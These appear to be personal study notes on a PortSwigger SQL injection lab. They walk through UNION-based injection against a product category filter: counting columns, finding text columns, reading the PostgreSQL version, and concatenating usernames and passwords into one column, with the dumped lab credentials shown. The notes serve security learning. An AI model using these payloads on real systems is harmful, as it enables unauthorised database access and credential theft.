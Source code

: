 `' UNION SELECT username || '~' || password FROM users--`

> [!NOTE]
> Different databases use different syntax to perform string concatenation. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

First determine columns and datatypes of column

here, in this case we got 2 columns and 2nd have string datatype

next step is to know which data type is this. For this, we can check with cheat sheet

![[Pasted image 20240506190543.png]]

### Payload used
```
/filter?category=Pets' UNION SELECT NULL,username || ' ' || password FROM users--`
```

![[Pasted image 20240506192746.png]]

Middle space can be replaced by any character just to separate output of column

### Notes
SQL Injection - Product category filter

End Goal: retrieve all usernames and passwords and login as the administrator user.

Analysis:
--------

(1) Find the number of columns that the vulnerable is using:
' order by 1-- -> not displayed on the page
' order by 2-- -> displayed on the page
' order by 3-- -> internal server error

3 - 1 = 2

(2) Find which columns contain text
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'-- ->**

(3) Output data from other tables

' UNION select NULL, username from users--
' UNION select NULL, password from users--

' UNION select NULL, version()--
-> PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

`' UNION select NULL, username || ' ' || password from users--

carlos hx8lpsrznosr462ydnvh
administrator 35v95vbpktdv4c2nqgak
wiener 0qc4vtnx4o08sr5nsstf

